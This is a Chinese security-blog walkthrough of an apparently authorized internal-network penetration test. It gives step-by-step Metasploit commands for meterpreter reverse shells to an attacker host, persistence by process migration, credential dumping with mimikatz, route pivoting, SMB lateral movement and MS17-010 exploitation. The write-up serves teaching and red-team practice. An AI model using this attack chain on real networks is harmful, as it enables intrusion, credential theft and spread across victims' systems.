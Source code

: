 

# 【基础向】实战讲解内网渗透思路 - 先知社区

【基础向】实战讲解内网渗透思路

- - -

## 简介

> 本次测试为实战测试，测试环境是授权项目中的一部分，敏感信息内容已做打码处理，仅供讨论学习。由于本人在内网方面的掌握也是属于新手阶段，运用到的一些**msf**攻击手法也很基础，请各位表哥多多指教。

## 获得 shell

Getshell 的过程没什么好说的，无非简单的后台弱口令到上传然后冰蝎连接 getshell。  
获得 shell 后，模拟终端`ping 8.8.8.8`有返回包，说明该服务器与外网互通。  
[![](assets/1698900931-6ae4ae855a6b8959426705b4debadd5d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209134756-73618e86-1a47-1.png)  
既然跟外网互通，那么可以尝试直接使用 msf 的`exploit/multi/handler`配合冰蝎反弹 shell 来获得 session

```bash
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost xxx.xxx.xxx.xxx
set lport 5665
run
```

[![](assets/1698900931-3957d515307d621d550796c88fc94a73.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209135404-4ec3890c-1a48-1.png)  
但是结果很不尽人意，没能够成功获得 session。  
在使用冰蝎模拟终端收集信息过程中，发现本地有**powershell**进程。  
[![](assets/1698900931-fd8d020acdf7e71972ec5ae5bb58776d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209135548-8c38c8ba-1a48-1.png)  
再次打开**msf**，本次尝试使用`web_delivery`配合终端执行 powershell 指令来获得 session。

```bash
User exploit/multi/script/web_delivery
Set targets 2
set payload windows/x64/meterpreter/reverse_https
set lhost xxx.xxx.xxx.xxx
set lport 4332
set srvport
run
```

[![](assets/1698900931-e9fd94764385c49c10524401a540af7c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209135830-ecdfee3c-1a48-1.png)  
[![](assets/1698900931-25c46c0389f22d45dd822f42e848489c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209135937-15029c52-1a49-1.png)  
获得 payload，使用冰蝎或者 C 刀模拟终端直接执行，成功获得 session，执行`getuid`发现权限为 system 权限，省去了提权过程。  
[![](assets/1698900931-55d5b1efd52a7fb15ec57678aad81c52.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209140017-2ce8122a-1a49-1.png)

## 权限维持

> 为了获得一个持久稳定的高权限 session，我们需要将当前的 session 进程迁移到一个持久、坚挺又稳定的进程上，防止突然暴毙（咳咳）

我们使用 ps 查看当前进程，然后选中一个看起来比较持久的幸运儿 spoolsv.exe(这是一个用来控制打印的进程，我遇到的机器基本都开启了此进程)  
**注意：**选择进程的时候优先选择系统进程，这种比较持久且为 system 权限

```bash
migrate 进程号
getpid
```

[![](assets/1698900931-758f3329c18cce1c71f0b31ef78d67c0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209140451-d0501d4a-1a49-1.png)

## 内网信息搜集

> 不管是在什么类型的渗透环境下，信息搜集永远是不可缺少的一环，他决定了你渗透的效率，可以让你在渗透过程中少走很多弯路，毕竟在项目上尤其是红蓝攻防中，最缺的永远是时间

接下来，查看 IP 信息以及 arp 缓存，查看网段分布情况：  
[![](assets/1698900931-36ab2b9d9807ce6d6f661ce9e23a7432.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209140655-19d6eae8-1a4a-1.png)  
[![](assets/1698900931-c553ff6a162810eb3776fd32a9651311.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209140706-20537814-1a4a-1.png)  
发现该服务器只存在 192.168.10.0/24 网段的信息  
于是继续查看其他信息

```bash
Netstat -ano
```

发现服务器开放 3389 端口：  
[![](assets/1698900931-f8c185a345e209c2f53a49ac533c62e0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209141402-18b20da4-1a4b-1.png)  
既然开启了 3389 端口，我们使用端口转发，登录到服务器看看有没有意外收获。

```bash
portfwd add -l 6666 -p 3389 -r 127.0.0.1
```

IP 有了，3389 开了，现在我们缺少的是用户名密码  
直接**meterpreter**下加载**mimikatz**

```bash
Load mimikatz
Wdigest
```

[![](assets/1698900931-1ac8327fbae6fc4a2cea30b6dae3731f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209142902-30e67f70-1a4d-1.png)  
比较遗憾的是没能获取到明文密码，但是我这边使用**cobalt strike**加载的**mimikatz**成功获取到明文密码  
emmm 总之搞不懂的地方先归为玄学问题  
[![](assets/1698900931-43af818f0afcf5a679a090f46da7fe3b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209143603-2bae2566-1a4e-1.png)  
现在，密码也有了，mstsc 链接目标 3389 端口成功**此处涉及的敏感信息较多，放弃截图，我尽量用语言表述清楚思路**  
上传**netpass**查看 rdp 缓存，无果，但是发现系统有**VNC**

> **VNC:**VNC (Virtual Network Console) 是虚拟网络控制台的缩写，是一款远程控制工具软件。

查看 VNC 相关文件发现新的网段信息，但是没有保存的连接信息，不过能获得新的网段信息也是知足了  
[![](assets/1698900931-7c244caaa37e3fcd020fc6092f0c9c6a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209144126-ec323fb6-1a4e-1.png)

## 横向

> 至此，信息收集部分其实也就差不多，接下来我们开始尝试横向移动

根据之前发现的网段信息以及服务器本机的路由信息，我们手动添加路由

```bash
Run autoroute -s 192.168.10.0/24
Run autoroute -s 172.16.0.0/24
……
```

其他网段同理，添加路由之后`bg`退回到控制台  
先使用`auxiliary/scanner/smb/smb_version`模块扫描一下各网段的**smb**服务开启情况

```bash
Use auxiliary/scanner/smb/smb_version
set rhosts 192.168.10.0/24
set threads 10
run
```

[![](assets/1698900931-922e8d47a74f5a973b8ac5d3ff55d77c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209144539-8317f9b6-1a4f-1.png)  
可以看到，活着的机器还挺多。  
[![](assets/1698900931-b3f7a4bf570e5287969dddef78eca758.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209144709-b8b5d868-1a4f-1.png)  
然后，使用`auxiliary/scanner/smb/psexec_loggedin_users`模块配合已获得的两组账户密码进行横向

```bash
Use auxiliary/scanner/smb/psexec_loggedin_users
Set rhosts 192.168.10.0/24
Set smbuser username
Set smbpass password
Set threads 5
run
```

[![](assets/1698900931-277d5d759de0034f58f6238a47d0fe1f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209144910-00e241ee-1a50-1.png)  
尴尬，横向失败，居然没有用同账户密码  
[![](assets/1698900931-13683ba0bd6cc6e2b06d15afa78468f6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209144830-e950ff84-1a4f-1.png)  
既然横向失败，可以考虑最简单的，但也是最实用的大杀器，ms17-010  
先使用`scanner`模块扫描一下哪些机器可能存在 ms17-010 的漏洞

```bash
Use auxiliary/scanner/smb/smb_ms17_010
Set rhosts 192.168.10.0/24
Set thread 20
Run
```

[![](assets/1698900931-048098820260e435cac82668b4cc4dfb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209145024-2d657c18-1a50-1.png)  
由于打 ms17-010 的流量比较大，为了防止死掉，我根据扫描出来的结果，针对性的选择一台感觉比较容易搞的目标，单独打。  
此处试了很多机器，好多都打了补丁，不过也有漏网之鱼，此处单独拿一台示例：  
Use auxiliary/admin/smb/ms17\_010\_command  
set rhost 192.168.10.18  
set command whoami  
run  
[![](assets/1698900931-c0b822ffbc835c0ba8030a0e207c313e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209145136-57e4b2d8-1a50-1.png)  
成功执行，是 system 权限，同理 command 换成弹 shell 的命令，便可以获得该机器的权限。  
[![](assets/1698900931-8dc53c08169105a34fb3539e9ee3008c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191209145151-60f91abc-1a50-1.png)  
获得新机器的权限之后，便可以围绕新机器进行新一轮的信息搜集，然后不断横向，进一步扩大内网战果，以下，就不在多做测试。  
另外对于**ms17-010**，如果说打 2003 的机器，建议使用`auxiliary/admin/smb/ms17_010_command`模块进行执行命令获得 session；其他的可以直接使用`exploit/windows/smb/ms17_010_eternalblue`或者 exploit/windows/smb/ms17\_010\_psexec 来直接获得 session。

## 写在最后

咕某人提醒您：道路千万条，安全第一条；渗透不规范，亲人两行泪。  
以上渗透测试过程纯属本人杜撰，渗透是不可能渗透的，这辈子都不可能渗透的。  
最后，对于过程中有任何疑问都可以评论留言，我会的会一一回复，不会的也能让路过的表哥给康康，说不定表哥就给解决了呢，嘿嘿（发出了白嫖的笑声）。
